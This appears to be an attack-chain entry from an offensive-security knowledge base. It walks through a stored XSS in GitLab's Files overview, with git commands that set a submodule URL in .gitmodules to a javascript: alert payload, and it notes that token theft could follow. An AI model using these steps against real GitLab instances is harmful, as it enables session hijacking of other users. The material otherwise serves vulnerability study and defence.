

---

# Stored XSS in GitLab Files Overview via Malicious Git Submodule URL

Multi-stage attack chain demonstrating a complete attack workflow exploiting a stored XSS vulnerability in GitLab's Files overview by abusing the git submodule URL in the .gitmodules file.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/git]]

### Target Environment

- GitLab instance (version vulnerable to CVE-2015-XXXX, pre-fix)
- Required services/ports: Git over SSH/HTTPS (port 22/443)
- Network access requirements: Ability to create and push to a project repository

### Initial Access Requirements

- GitLab account with push access to a project
- SSH key configured for git operations
- Local Git environment

## Detailed Attack Procedures

### Step 1: Initialize Project and Wiki Repositories

procedure: [[procedures/Initialize-GitLab-Project-and-Wiki-Repositories]]

**Objective**: Set up local copies of the project and wiki repositories and initialize them with initial commits to enable submodule addition.

**Instructions**: Clone the repositories using [[commands/git-clone-repository]], create initial files with [[commands/touch-file]], stage with [[commands/git-add-file]], commit with [[commands/git-commit-message]], and push with [[commands/git-push-changes]].

```bash
git clone git@gitlab.com:user/project
cd project

touch some-file
git add some-file
git commit -am "Added file to initialize project repository"
git push

# Repeat for wiki
dir=../project.wiki
git clone git@gitlab.com:user/project.wiki $dir
cd $dir
touch some-file
git add some-file
git commit -am "Added file to initialize wiki repository"
git push
```

**Expected Output**: Local repositories initialized and pushed to GitLab with initial commits.

**Success Indicators**:
- Repositories cloned without errors
- Initial commits visible in GitLab UI

### Step 2: Add Wiki as Relative Git Submodule

procedure: [[procedures/Add-Wiki-as-Relative-Git-Submodule]]

**Objective**: Add the wiki repository as a relative submodule to the main project, creating the .gitmodules file.

**Instructions**: From the project directory, add the submodule using [[commands/git-submodule-add-relative]], stage with [[commands/git-add-submodule]], commit with [[commands/git-commit-message]], and push with [[commands/git-push-changes]].

```bash
cd ../project
git submodule add ../project.wiki wiki
git add wiki
git commit -am "Added relative wiki module"
git push
```

**Expected Output**: Submodule added, .gitmodules file created and committed.

**Success Indicators**:
- 'wiki' directory appears as a submodule in the project
- .gitmodules file contains the relative URL

### Step 3: Inject JavaScript Payload into .gitmodules File

procedure: [[procedures/Inject-JavaScript-Payload-into-Gitmodules-File]]

**Objective**: Modify the submodule URL in .gitmodules to a javascript: payload and commit the change.

**Instructions**: Edit .gitmodules manually to replace the URL, then stage with [[commands/git-add-all]], commit with [[commands/git-commit-message]], and push with [[commands/git-push-changes]].

```bash
# Edit .gitmodules: change 'url = ../project.wiki' to 'url = javascript:alert('XSS')'
vi .gitmodules

git add .
git commit -am "Updated relative URL"
git push
```

**Expected Output**: Modified .gitmodules pushed to GitLab without validation errors.

**Success Indicators**:
- Commit succeeds and is visible in GitLab
- .gitmodules shows the javascript: URL

### Step 4: Trigger XSS by Viewing Project Files Overview

procedure: [[procedures/Trigger-XSS-by-Viewing-Project-Files-Overview]]

**Objective**: Visit the project's Files overview and interact with the wiki directory to execute the JavaScript payload in the victim's browser session.

**Instructions**: Navigate to the project tree view in a browser and click on the wiki directory. No commands needed; this is a client-side trigger.

**Expected Output**: JavaScript alert('XSS') executes, demonstrating arbitrary code execution.

**Success Indicators**:
- Alert box pops up in the browser
- Potential for further payload to steal session tokens or API access

## Attack Chain Summary

### Key Achievements

1. Successful injection of JavaScript into a stored git submodule URL without validation
2. Arbitrary JavaScript execution in victim browsers viewing the Files overview
3. Potential for session hijacking, API token theft, and user impersonation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
